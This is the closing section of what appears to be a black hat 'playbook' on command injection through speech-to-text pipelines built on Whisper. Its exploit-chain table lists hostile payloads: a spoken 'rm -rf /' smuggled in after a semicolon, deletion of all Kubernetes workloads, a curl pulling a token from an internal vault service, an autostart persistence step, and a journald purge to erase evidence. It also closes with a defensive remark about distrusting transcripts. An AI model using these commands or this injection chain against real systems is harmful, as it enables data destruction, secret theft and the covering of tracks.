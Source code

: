 
## 🔚 7.7 Summary: Whisper as Cognitive SysAdmin Proxy

* 🎙️ **Voice** is the new shell prompt.
* 🧠 **Whisper** is the bridge from *semantics to execution*.
* 🧨 **Transcripts** become **attack payloads**.
* 🛠️ **Sysadmin commands** are just phrases now.

> Once whisper is hooked into a dispatcher, any voice input becomes a valid `exec()` call. The black hat opportunity lies in the ability to weaponize that trust by **embedding arbitrary shell instructions into speech.**

---

# 💣 Final Summary: The Black Hat Voice-to-Root Chain

The overarching threat is this:

```text
Audio file → Transcription → Trusted Input → Shell Execution
```

### 🚨 Threat Premise:

> The system assumes that if a transcript looks plausible, it is safe.

This is false.

---

## 🧩 End-to-End Exploit Chain

| Stage             | Mechanism                  | Payload (Voice)                            | Effect                       |
| ----------------- | -------------------------- | ------------------------------------------ | ---------------------------- |
| 🧠 STT Engine     | whisper.cpp                | “Update system semicolon rm dash rf slash” | Deletes all files            |
| 📜 Dispatcher     | Bash / Python / exec       | `update system; rm -rf /`                  | Blindly passed to `bash -c`  |
| 🔐 Execution      | systemctl / kubectl / curl | `kubectl delete all --all`                 | Deletes all K8s workloads    |
| 📡 Mesh Routing   | Linkerd sidecar            | `curl http://vault.svc/token`              | Internal secret exfiltration |
| 🧼 Persistence    | systemd timer              | `echo payload > ~/.config/autostart.sh`    | Reinstalls payload on reboot |
| 🧪 Anti-forensics | journald purge             | `journalctl --vacuum-time=1s`              | Hides transcript trail       |

---

## 🧠 Closing Thought

> Whisper is not a vulnerability.
> **Blind trust in transcripts is.**

When natural language becomes a shell, you must treat **every syllable as potential code**.
From a black hat perspective, the whisper chain is not a voice interface—it’s a weaponized shell proxy with no keyboard.

---

✅ End of Playbook.
